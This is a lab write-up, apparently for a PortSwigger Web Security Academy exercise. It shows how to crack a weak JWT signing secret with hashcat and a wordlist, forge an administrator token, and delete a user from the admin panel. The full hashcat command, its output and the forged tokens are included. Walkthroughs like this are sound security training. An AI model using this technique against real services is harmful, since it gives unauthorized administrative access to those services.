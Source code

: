 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a479b2ff-0067-4ce9-b2a2-18d6819d6e36)

## Overview :

When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, **it can be trivial for an attacker to brute-force a server's secret using a wordlist of well-known secrets.**

Hashcat command to bruteforce secret keys -

```bash
 hashcat -a 0 -m 16500 <jwt> <wordlist>
```

## Solution :

Login as wiener using the provided credentials.

In the *HTTP history* tab , we can see that the 3 following requests have JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/43fbce2f-5129-42d7-9f0d-65bfc6cc4171)

Send one of the requests to repeater tab. It has the following JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58
```
**Header -**

```json
{
  "kid": "ca9fba13-df22-4e11-8058-5ae5d5809dcd",
  "alg": "HS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695638470
}
```

### Bruteforce the secret using hashcat -

With the help of hashcat , we were able to find the secret key used in the JWT.

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 16500 eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58 jwt.secrets.list 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-10310U CPU @ 1.70GHz, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: jwt.secrets.list
* Passwords.: 103271
* Bytes.....: 1203512
* Keyspace..: 103261
* Runtime...: 0 secs

eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58:secret1
```

So the secret used here is - **secret1**.

### Modify the JWT & Re-sign it -

1. In the Payload section, change `"sub": "wiener"` to `"sub": "administrator"` .
2. Go to **JWT Editor**, and specify the secret-key which we found - `secret1`
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0ac41f56-d0c4-4fa8-908a-2f8b2f0d088b)
3. Now go to *JASON WEB TOKEN* tab & sign the key.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8997a258-237e-4480-a8e8-982eba0e1c1e)

This is the resulting JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU2Mzg0NzB9.6x0sGjULyvW10Bc-Qmgv68TtfCRD9xd9GBIBlt5Lt68
```

Replace the original token with the one we just created & forward the request.

Now we can see the link to admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/deb48201-f88d-4cad-9c22-3f515cbd8382)

Delete the user carlos to solve the lab.

![Uploading image.png…]()

